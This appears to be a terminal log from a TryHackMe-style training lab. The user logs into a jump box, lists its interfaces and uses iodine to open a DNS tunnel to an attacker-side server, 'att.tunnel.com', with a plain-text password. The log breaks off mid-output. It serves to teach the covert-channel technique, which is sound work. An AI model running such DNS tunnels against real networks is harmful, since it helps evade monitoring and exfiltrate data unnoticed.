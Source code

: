 ```
root@ip-10-10-149-92:~# ssh thm@10.10.51.10
The authenticity of host '10.10.51.10 (10.10.51.10)' can't be established.
ECDSA key fingerprint is SHA256:Ks0kFNo7GTsv8uM8bW78FwCCXjvouzDDmATnx1NhbIs.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.51.10' (ECDSA) to the list of known hosts.
thm@10.10.51.10's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-1029-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Sep 12 23:33:04 2022 from 10.100.1.151
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

thm@jump-box:~$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.20.0.2  netmask 255.255.255.0  broadcast 172.20.0.255
        ether 02:42:ac:14:00:02  txqueuelen 0  (Ethernet)
        RX packets 91  bytes 10518 (10.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 66  bytes 12598 (12.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.0.133  netmask 255.255.255.0  broadcast 192.168.0.255
        ether 02:42:c0:a8:00:85  txqueuelen 0  (Ethernet)
        RX packets 15  bytes 1186 (1.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

thm@jump-box:~$ sudo iodine -P thmpass att.tunnel.com
[sudo] password for thm: 
Opened dns0
Opened IPv4 UDP socket
Sending DNS queries for att.tunnel.com to 127.0.0.11
Autodetecting DNS query type (use -T to override).
Using DNS type NULL queries
Version ok, both using protocol v 0x00000502. You are user #0
Setting IP of dns0 to 10.1.1.2
Setting MTU of dns0 to 1130
Server tunnel IP is 10.1.1.1
Testing raw UDP data to the server (skip with -r)
Server is at 172.20.0.200, trying raw login: OK
Sending raw traffic directly to 172.20.0.200
Connection setup complete, transmitting data.
Detaching from terminal...
thm@jump-box:~$ ifconfig dns0
dns0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1130
```